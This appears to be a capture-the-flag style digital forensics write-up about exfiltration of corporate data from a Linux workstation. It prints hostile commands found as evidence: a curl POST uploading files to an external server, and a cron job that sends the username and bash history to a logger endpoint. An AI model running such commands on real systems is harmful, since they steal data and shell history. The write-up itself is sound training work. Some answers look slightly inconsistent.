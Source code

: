 Project Goal:
The goal of this investigation was to uncover evidence of data exfiltration from Liam's personal workstation, which was suspected to have been used to secretly transfer corporate data. To achieve this, a detailed analysis of the system, logs, connections, and hidden data was performed to find traces of the exfiltration and uncover connections with external participants in the incident.

Description and Steps Taken:
The initial task was to investigate Liam's personal machine, which was suspected to have been involved in data exfiltration. Given that it was his personal workstation running Linux, Liam might have taken additional measures to cover his tracks. However, I proceeded with a detailed examination to uncover evidence of his actions.

1. Finding the Last Login Time of Liam:

The first step I took was to find the date and time of Liam’s last login to the system. I searched the authentication logs using the grep command to filter events related to his sessions. I found that Liam last logged into the system on February 28, 2025, at 10:59:07. This coincided with the time the USB device was connected.

Answer: 2025-02-28 10:59:07

2. Identifying the Timezone of Liam’s Device:

Next, I wanted to determine the timezone of Liam's device. This information would help synchronize timestamps with other events. I checked the /etc/timezone file, which revealed that the system's timezone was set to America/Toronto.

Answer: America/Toronto

3. Analyzing the USB Connection:

One of the key steps in the investigation was identifying which USB device Liam connected to his system. I analyzed system logs that contained information about connected devices. I was able to extract the serial number of the device used for exfiltration.

Answer: 2651931097993496666

I then checked the logs for the exact time when the USB device was connected to the system.

Answer: 2025-02-28 10:59:25

4. Investigating the Commands for Transferring Files:

Liam used the transferfiles command to begin moving the data. I investigated the shell configuration files to see if transferfiles was an alias or function. I found that it was linked to the cp command, which copied files from the USB device to the home directory.

Answer: cp -r "/media/liam/46E8E28DE8E27A97/Critical Data TECH THM" /home/liam/Documents/Data

Next, I looked into how Liam transferred the exfiltrated files to an external server. By checking his command history, I found that he used the curl command to send data to the server with the IP address 5.45.102.93.

Answer: curl -X POST -d @/home/liam/Documents/Data http://tehc-thm.thm/upload

Answer for the server's IP address: 5.45.102.93

5. Additional Investigation:

I also discovered that Liam created a file named mth in his home directory. This led me to verify that he was in the /home/liam directory when the file was created.

Answer: /home/liam

Additionally, by analyzing the files and logs, I determined that Liam had an arrangement with an external entity named Henry, who was supposed to pay him for carrying out the data exfiltration task.

Answer: 10000

6. Important Event Timestamps:

I continued analyzing the logs and found that Liam disconnected the USB device at 11:44:00, which matched other timestamps.

Answer: 2025-02-28 11:44:00

7. Describing the Hidden Directory:

During the analysis, I found that Liam had used a hidden directory called .hidden, which contained several files. I identified that certain files in this directory, namely file3.txt and file7.txt, appeared to have their timestamps altered.

Answer for the directory path: /home/liam/Public

Answer for the timestamped files: file3.txt,file7.txt

8. External Entity Connecting via SSH:

During the investigation, I noticed that a few hours after the exfiltration, there was an SSH login from an external IP address 94.102.51.15. This confirmed that an external entity continued to interact with Liam's system after his actions.

Answer: 94.102.51.15

9. Analyzing Cron Jobs:

Finally, I found that the external entity had set up a cron job on Liam’s machine. This cron job executed every 30 minutes and sent the last few lines from the command history to an external server for monitoring purposes.

*Answer: /30 * * * * curl -s -X POST -d “$(whoami):$(tail -n 5 ~/.bash_history)” http://192.168.1.23/logger.php

Conclusion:
The analysis of Liam's system revealed that his personal workstation was indeed used for covert data exfiltration. Liam utilized a USB device to transfer files and the curl command to send the data to an external server. Notably, the investigation uncovered the involvement of an external entity, Henry, who had an agreement with Liam for the exfiltration task. The external entity also connected to Liam’s system through SSH and set up a cron job for continuous monitoring of the system.

This project highlights the importance of conducting thorough system, log, and data analysis to uncover hidden traces of actions and determine a user's involvement in security incidents.
